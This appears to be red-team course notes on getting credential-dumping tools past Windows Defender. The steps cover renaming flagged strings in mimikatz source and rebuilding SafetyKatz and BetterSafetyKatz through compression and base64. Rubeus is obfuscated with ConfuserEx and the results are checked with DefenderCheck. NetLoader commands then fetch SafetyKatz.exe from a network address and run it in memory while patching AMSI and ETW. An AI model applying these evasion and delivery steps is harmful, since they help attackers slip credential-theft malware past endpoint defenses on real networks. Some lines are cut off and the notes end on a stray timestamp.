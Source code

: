 - We will focus on bypass of signature based detection by Windows Defender.
- For that, we can use techniques like Obfuscation, String Manipulation, etc.
- We can use **DefenderCheck** (https://github.com/matterpreter/DefenderCheck) to identify code and strings from a binary that windows defender may flag.
- This helps us in deciding on modifying the source code and minimal obfuscation.


How to Manipulate Strings?
- Open the project in Visual Studio
- Press "Ctrl + H"
- Find and replace the string "Credentials" with "Credents" or other
- Select the scope as "Entire Solution"
- Press "Replace ALL"
- Build and recheck the binary with DefenderCheck.
- Repeat above steps if still there is detection

**Safetykatz** (Rebuilds) , we used the follwing steps
- Download the latest version of mimikatz and Out-CompressedDLL.ps1
- Run the Out-CompressedDLL.ps1 Powershell script on Mimikatz binary and save the output to a file.
`Out-CompressedDLL.ps1 <path to mimikatz.exe> > output.txt`

![](https://i.imgur.com/LZBuS9j.png)

![](https://i.imgur.com/VpDCFA4.png)

**BetterSafetyKatz** (Rebuilds)
- Download the latest release of "mimikatz_trunk.zip" file.
- Convert the file into base64 value.

![](https://i.imgur.com/WcrG2rs.png)

Passed it to the zip stream and then rebuilt it.

![](https://i.imgur.com/Mr47l16.png)

- For Rubeus.exe, we used ConfuserEx to obfuscate the binary. then we check it with DefenderCheck.exe

![](https://i.imgur.com/9Wqi5YX.png)

## Payload Delivery
- We can use NetLoader (https://github.com/Flangvik/NetLoader) to deliver our binary payloads.
- It can be used to load binary from filepath or URL and patch AMSI and ETW while executing
```powershell
C:\User\Public\Loader.exe -Path
http://192.168.100.x/SafetyKatz.exe
```
- We also have AssemblyLoad.exe that can be used to load the Netloader in-memory from a URL which then loads a binary from a filepath or URl.
```powershell
C:\\Users\Public\AssemblyLoad.exe
http://192.168.100.
```
1:59
